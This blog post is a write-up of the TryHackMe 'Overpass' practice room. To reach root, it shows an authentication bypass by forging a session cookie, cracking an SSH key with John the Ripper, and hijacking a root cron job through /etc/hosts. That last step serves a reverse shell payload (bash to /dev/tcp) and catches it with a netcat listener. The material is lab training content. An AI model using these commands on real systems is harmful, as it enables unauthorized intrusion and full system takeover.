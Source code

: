 ```yaml
---
layout: post
title: TryHackMe writeup - Overpass
author: Lorentz Vedeler
date: 2020-07-21
tags:   
    - TryHackMe
category: writeup
---
```


Here's how I rooted the room overpass on [tryhackme.com][1]. All in all, the room was pretty easy, but I actually spent a lot of time figuring it out because I was overthinking.

## user.txt

### Red herring #1 - Looking for sensitive data exposure
Just browsing to the IP reveals a product page for a password manager. We can find the source for the password manager which reveals that it is not secure at all - it's using a simple caeasar cipher with 47 rotations. The passwords are saved to a .overpass file in the users home directory. I actually spent a lot of time looking for one of these files exposed on the server but could not find any.

### Red herring #2 - Looking for injection
After running gobuster for a short while it revealed that an additional login page for admins could be reached. Reading the hint on tryhackme I started looking for injections. I tried many different payloads for sql, no-sql, command injection etc in the username/password fields, but could not find any that would work.

### Red herring #3 - Looking for XXE and insecure deserialization
Checking out the javascript code for login.js we can see that it's using ajax to post the credentials to an api endpoint. The comment that "body data type must match "Content-Type" header" made me think this could be an endpoint that would accept different content types. So I tried to modify the request and send credentials a few different xml and json formats, but all returned 400 Bad request.

```javascript
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
``` 

### Finally - Broken authentication

We can see from the javascript above that a successful login sets the cookie `SessionToken` with the result from the request. I had incorrectly assumed that it would be a JWT token, and had been looking for ways to register a new user to see if I could find some weakness in the tokens. A desperate try was to just set this token to the username I wanted to login with. First I tried setting it to 'admin' and refresh the page. No luck. Then I tried with 'administrator'. Refresh... And behold: The administrator page. It contains a private ssh-key meant for the user james. The key is encrypted, but the text on the page suggests it should be easily crackable, and running john the ripper on it with the rockyou password list cracks it almost instantly even on my old laptop.

> edit: after reading other writeups I have no idea why it didn't work to set the cookie at first try, perhaps I didn't actually save the cookie with changed value. Apperantly it should accept any value in the cookie.

1. Save the key to id_rsa in your working directory.
2. `/usr/share/john/ssh2john.py id_rsa > id_rsa_hash`
3. `john --wordlist=/opt/wordlists/rockyou.txt --format=SSH id_rsa_hash`
4. `ssh -i id_rsa james@<IP>` 

## root.txt
...And we're in. I uploaded linpeas to the server and ran it from james home directory. It shows us a few interesting things:

1. A cron job running as root that downloads a buildscript from overpass.thm and pipes it to bash
2. We have write access to /etc/hosts

The plan is simple: we will serve our own malicious buildscript containing a reverse shell payload, spin up our listener, add an entry for overpass.thm domain with our own IP to the /etc/hosts file and wait untill the cron job executes.

``` bash
mkdir -p downloads/src
``` 
save the script below to `downloads/src/buildscript.sh`
``` bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```

Then run the following on your own machine:
``` bash
sudo python3 -m http.server 80
# In another terminal: 
nc -lnvp 4444
```

wait for a few moments... and boom! we are root.

[1]: https://tryhackme.com